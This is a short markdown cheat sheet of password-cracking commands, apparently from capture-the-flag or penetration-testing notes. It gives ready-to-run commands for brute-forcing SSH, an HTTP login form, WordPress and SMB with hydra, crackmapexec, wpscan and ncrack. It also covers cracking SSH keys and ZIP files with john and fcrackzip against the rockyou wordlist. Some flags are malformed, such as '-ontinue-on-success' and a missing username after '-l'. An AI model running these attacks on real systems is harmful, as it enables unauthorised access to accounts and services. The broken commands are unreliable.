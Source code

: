 #crackPass 

# HYDRA [[Hydra-Password-Cracking-Cheatsheet.pdf]]

# ssh
```
crackmapexec ssh 10.10.11.247 -u users -p 'passwd' -ontinue-on-success
```
## dict
```
hydra $ip -s 22 ssh -l -P big_wordlist.txt
```
## crack ssh key
```
 ssh2john key > hash
 ```
 ```
 john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

# crack form login
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $ip http-form-post '/admin/:username=^USER^&password=^PASS^:F=Incorrect Credentials' -V
```


# wordpress
```
wpscan --url $ip -P /home/kali/Desktop/Chall/thm/fsocity.dic.m -U Elliot
```
# mkpasswd
make hash for a passwd
```
mkpasswd -m sha-512 password1234
```

# smb
`ncrack --vv --user <user> -P <password> smb://@ip`

# file.zip
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

# john
## formats list
```
john --list=FORMATS
```